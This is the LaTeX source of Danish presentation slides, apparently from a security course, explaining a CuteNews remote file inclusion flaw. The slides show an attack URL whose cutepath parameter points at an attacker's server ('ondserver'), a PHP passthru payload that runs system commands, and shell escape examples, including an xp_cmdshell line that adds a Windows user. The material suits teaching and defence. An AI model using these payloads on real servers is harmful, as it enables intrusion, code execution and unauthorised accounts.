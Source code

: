 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{list1}
\item CuteNews indeholder sårbarheder
\item Sårbarheden er beskrevet på: 
\item Softwaren findes på: 
\end{list1}




\begin{list1}
\item \verb!http://server/cutenews/show_archives.php?!\\
{\bfseries \verb!cutepath=http://ondserver/files/pentest/!}
\end{list1}


\begin{list2}
\item Henter config.php i cutepath - søgesti
\item Cutepath kan ændres og derved kan filen \verb+data/config.php+ hentes
  fra en vilkårlig server på Internet
\item Webserveren \emph{henter filen} - ud
gennem firewall
\item PHP fortolkeren på webserveren udfører kommandoerne
\end{list2}
\centerline{\bf NB: ikke kun problem for PHP}


\begin{list1}
\item Hvad indeholder hackerens udgave af filen \verb+data/config.php+ \\
- alt, bagdøre, hack scripts, exploits
\end{list1}
\begin{alltt}
<pre>
<?php passthru("{\bfseries netstat -an && ifconfig -a}"); ?>
</pre>
\end{alltt}
\begin{list1}
\item Andre shell escapes:
\begin{list2}
\item Perl: \verb+print `/usr/bin/finger $input{'command'}`;+
\item UNIX shell: \verb+`echo hej`+
\item Microsoft SQL: \verb+exec master..xp_cmdshell 'net user test testpass /ADD'+
\end{list2}
\end{list1}
\end{document}
